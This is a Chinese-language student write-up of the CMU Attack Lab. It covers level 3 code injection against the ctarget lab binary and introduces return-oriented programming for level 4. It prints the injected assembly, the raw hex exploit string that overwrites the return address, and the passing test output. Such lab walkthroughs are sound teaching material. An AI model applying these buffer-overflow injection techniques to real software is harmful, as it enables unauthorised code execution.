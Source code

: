 根据上一题的经验 `rdi` 也就是我们传入的地址 `rdi->touch3->rsi->hexmatch`

根据c代码 也就是传入一个指向字符串的指针,要这个被指向的字符串和`cookie(0x59b997fa)`一样

编写注入代码 把字符串地址(根据上一题`0x5561DC78`是输入起始地址 所以大概放在`0x5561DC78+0x28+0x8)`放入`rdi`,放入`touch3`的地址 返回

**注:因为这里会再调函数 也就意味着我们的overflow也会被覆盖,所以要找一个安全的地方,在random面前哪里安全?(其实没random的事 但不要有利用random不random的想法吧) ,只有test(调用getbuf的函数 或更上)的栈里**

还要 一段"59b997fa"的字符串对应的16进制 注意是字符串比较末尾添0 这里倒是 末尾可加00也可以不加00 因为本来Gets读入过程中会加'\0'

```
(gdb) p/x "59b997fa"
$3 = {0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61, 0x0}
```

```
movl $0x5561dca8,%rdi
push $0x4018fa
ret
```

`gcc+objdump`得到

```
   0: 48 c7 c7 a8 dc 61 55  mov    $0x5561dca8,%rdi
   7: 68 fa 18 40 00        pushq  $0x4018fa
   c: c3                    retq
```

`48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00`

测试

```
cat exploit.ans3 | ./hex2raw  | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

### level 4

ROP 根据文档说 code-injection (也就是上面三个level我们干的事)有办法减轻/比如不定的栈位置,设置不可执行栈段

因此聪明的盆友有了一个利用既有代码的方法

文档教你如何利用看起来没用的代码`c7 07 d4 48 89 c7 c3` 如果从`48 89 c7` 这一段 就变成了完全不一样的功能的代码了

并且在下面附上了指令表

我们这两个level的事情是要 利用 这些 "隐藏的" 代码 实现第二第三关干的事情 并且只能使用 `start_farm`到 `end_farm`之间的代码

